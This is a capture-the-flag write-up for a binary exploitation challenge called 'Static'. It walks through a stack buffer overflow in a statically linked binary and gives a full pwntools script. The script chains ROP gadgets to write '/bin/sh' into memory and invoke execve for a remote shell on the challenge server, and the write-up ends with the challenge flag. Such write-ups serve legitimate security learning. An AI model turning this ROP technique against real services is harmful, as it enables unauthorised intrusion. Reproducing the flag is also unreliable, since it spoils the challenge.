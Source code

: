 # Static

So I heard all about these binary exploitation attacks involving libraries and libc, and that's got me worried! I decided to statically compile all of my binaries to avoid those attack vectors. This means I don't need to worry about mitigations, right?

Right??

nc static.chal.cyberjousting.com 1350

## Challenge

Running the binary didn't give much insight as it seems to just read input, so lets do some checks and get into decompiling it.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


```c
void vuln(void)

{
  undefined local_12 [10];
  
  read(0,local_12,256);
  return;
}
```

So again we have a very simple vuln function that has a simple buffer overflow. Now the only real differences on this guy here is that the binary is statically linked and has NX enabled. There is a stack canary but not one that we need to worry about, as shown in the vuln function decompilation.

This was my first time exploiting a statically linked binary like this. I spent a few minutes scratching my head because I knew what statically linked meant but I didn't know how exactly to exploit it. My first thought was to look for `system` in the binary, but it wasnt there. After some googling I quickly came across [this technique](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv). After a little bit of reading I came to an understanding that this was a pretty simple rop challenge that just used what the binary had to offer.

There were three things I needed to achieve: overflowing into the return address, getting `/bin/sh` into writable memory, and then setting up registers for a syscall.

Using `ROPgadget` I was able to pick out some gadgets that would fit my use. They weren't perfect but we made do.

```python
from pwn import *

elf = context.binary = ELF('./static')
#p = process('./static')
p = remote('static.chal.cyberjousting.com', 1350)

#Gadgets
pop_rdi = 0x0000000000401fe0
pop_rsi = 0x00000000004062d8
pop_rax_rdx_rbx = 0x000000000045e466
mov_rax_rdx_pop_rbx = 0x0000000000467180
syscall = 0x0000000000401194
writable_mem = 0x000000000049d000
ret = pop_rdi + 1

rop = p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#Rdi to our string and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

payload = b'A'*10 + rop
p.sendline(payload)
p.interactive()
```

The solve script does exactly that. It gets us into the return address, writes `/bin/sh` into rdx, then movs [rdx] into rax, then fills the registers with our desired values in order to call `execve`. And after calling we have achieved a shell on the server. 

## Flag

`byuctf{too_many_options_what_do_I_chooooooose}`